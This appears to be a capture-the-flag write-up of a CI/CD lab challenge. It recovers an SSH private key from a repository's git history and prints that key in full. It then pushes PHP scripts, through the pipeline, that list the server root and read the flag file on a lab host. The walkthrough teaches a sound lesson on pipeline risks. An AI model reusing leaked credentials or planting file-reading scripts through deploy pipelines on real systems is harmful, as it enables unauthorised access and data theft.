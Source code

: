 
# Objective 7: Jolly CI/CD
**Location: Elfen Ring**  
**Elf: Rippin Proudboot**

This objective is about getting familiar with the benefits and risks of CI/CD pipelines.

First we clone the repository and check with ```git log``` for any "interesting" commit comments. Then we use ```git diff``` to show the delta between those.
```
git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
git log
git diff abdea0ebb21b156c01f7533cea3b895c26198c98 e19f653bde9ea3de6af21a587e41e7a909db1ca5

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
Next we copy this SSH private key into ```~/.ssh/id_rsa```.

```
git config --global user.email "joergen@north.pole"
git config --global user.name "joergen"
git remote set-url origin git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git
```

Next we check it a PHP script ```test.php``` which will automatically be deployed into the web root:
```
<?php
if ($handle = opendir('/')) {
  while (false !== ($entry = readdir($handle))) {
    if ($entry != "." && $entry != "..") {
      echo "$entry\n";
    }
  }
  closedir($handle);
}
?>
```

```
git add test.php
git commit -m.
git push
curl http://wordpress.flag.net.internal/test.php
[...]
var
bin
mnt
.dockerenv
flag.txt
```

Next we modify the script to reveal the flag:
```
<?php
echo file_get_contents('/flag.txt');
?>
```

```
git add test.php
git commit -m.
git push
curl http://wordpress.flag.net.internal/test.php
[...]
oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT
```

**oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT**

**Achievement: Jolly CI/CD**

